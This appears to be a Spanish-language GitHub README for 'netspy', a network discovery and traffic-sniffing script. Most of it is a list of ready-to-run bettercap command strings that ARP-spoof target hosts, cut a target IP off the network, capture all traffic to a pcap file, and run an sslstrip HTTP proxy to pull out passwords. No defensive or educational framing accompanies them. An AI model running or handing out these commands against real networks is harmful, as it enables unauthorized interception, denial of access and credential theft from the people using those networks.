 <img style="float:left" alt="netspy logo" src="https://github.com/hackingyseguridad/netspy/blob/master/netspy.png">

# netspy

# 1.- Descubre elementos de red 2.- Captura y muestra en pantalla el trafico.

# Instalacion:

apt-get install bettercap

apt-get install netdiscover

git clone https://github.com/hackingyseguridad/netspy

cd netspy

chmod 777 netspy

# Uso.:

sh netspy

# Bettercap v2.9

Escanear toda la Red:
net.probe on; ticker on

Banear tarjet IP con ARP:
set arp.spoof.targets IP; arp.spoof on; set arp.ban on; net.probe on

Capturar trafico en fichero siff_all.pcap:
net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.output /tmp/sniff_all.pcap; set net.sniff.verbose false; net.sniff on

Ver Trafico:
net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on

Ver trafico por proxy y extrae claves:
net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on; http.proxy on; set http.proxy.sslstrip true

www.hackingyseguridad.com
